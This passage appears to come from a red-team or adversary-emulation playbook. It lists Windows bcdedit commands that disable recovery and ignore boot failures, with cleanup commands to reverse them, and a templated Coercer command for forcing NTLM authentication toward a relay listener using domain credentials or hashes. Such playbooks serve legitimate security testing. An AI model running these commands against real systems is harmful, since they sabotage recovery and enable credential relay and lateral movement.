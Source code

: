 ### Guidance

```
CMD> 
bcdedit /set {default} recoveryenabled No
bcdedit /set {default} bootstatuspolicy ignoreallfailures
```

### Cleanup

Assuming default settings, cleanup commands are as follows:

```
CMD> 
bcdedit /set {default} recoveryenabled Yes
bcdedit /deletevalue {default} bootstatuspolicy
```

If values were non-default (based on `/enum` command), use those values instead

# Lateral Movement

## Windows Authentication Coercion - General guidance

https://github.com/p0dalirius/Coercer/

### Prerequisites

- [Coercer](https://github.com/p0dalirius/Coercer/) setup in a virtualenv
- Domain user credentials
- A target RPC interface, such as MS-EFSR (PetitPotam), MS-RPRN (PrinterBug), MS-DFSNM (DFSCoerce), or MS-FSRVP (ShadowCoerce)
    - Use Coercer's scan mode to identity valid interface/method combinations (`python Coercer.py scan --target {{ target }} ...`)
- A listener (e.g. `ntlmrelayx`, `responder`)

### Guidance

To trigger the coercion:

```
python Coercer.py coerce -u {{ domain_user }} -p {{ password }} --target {{ target }} -l {{ listener }} --filter-protocol-name {{ rpc_protocol }} --filter-method-name {{ rpc_method }}
```

- `rpc_protocol` and `rpc_method` can be determined from the output of the `scan` sub-command.
- If authenticating with a hash instead of a password, use `--hashes {{ lm:nt }}` instead of `-p {{ password }}`

### Notes

Different RPC interfaces may have individual tools to coerce authentication. For example:
- MS-RPRN: https://github.com/leechristensen/SpoolSample
- MS-EFSR: https://github.com/topotam/PetitPotam
- MS-DFSNM: https://github.com/Wh04m1001/DFSCoerce
- MS-FSRVP: https://github.com/ShutdownRepo/ShadowCoerce

